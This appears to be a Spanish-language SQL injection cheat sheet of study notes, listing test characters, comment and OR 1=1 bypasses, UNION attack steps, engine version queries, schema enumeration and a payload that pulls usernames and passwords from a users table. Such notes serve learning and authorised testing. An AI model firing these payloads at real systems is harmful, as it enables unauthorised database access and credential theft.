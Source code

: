 # ATAQUE: SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | simbolo comun para testear si existe SQLi o no.

" | simbolo comun para testear si existe SQLi o no.

' -- | simbolo comun para testear si existe SQLi o no

## BYPASS COMUNES

-- | dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

' OR 1=1-- | sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.

## UNION ATTACK

PRE-REQ: numero de columnas y data type de cada columna

### COMO SABER EL NUMERO DE COLUMNAS ?

METODO_1: ' ORDER BY 1-- \
METODO_2: ' UNION SELECT NULL--

### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> se tiene que hacer iterativo cambiando los campos para saber que tipo son.

> Oracle

' UNION SELECT 'a','a' from DUAL--

### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

Microsoft >> SELECT @@version \
MySQL >> SELECT @@version \
Oracle >> SELECT banner FROM v$version | SELECT version FROM v$instance \
PostgreSQL >> SELECT version() 

### LISTAR TABLAS DE LA BASE DE DATOS / [Microsoft / MySQL / PostgreSQL] 

SELECT [columns] FROM information_schema.tables | '+UNION+SELECT+table_name,null+FROM+information_schema.tables-- \
SELECT [columns] FROM information_schema.columns 

SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

  NOTA: revisar cual es la estructura del "information_schema" por motor.

### LISTAR TABLAS DE LA BASE DE DATOS / [Oracle] 

SELECT [columns] FROM all_tables 

SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT username, password FROM users-- | retrieve the username and password from table "users"




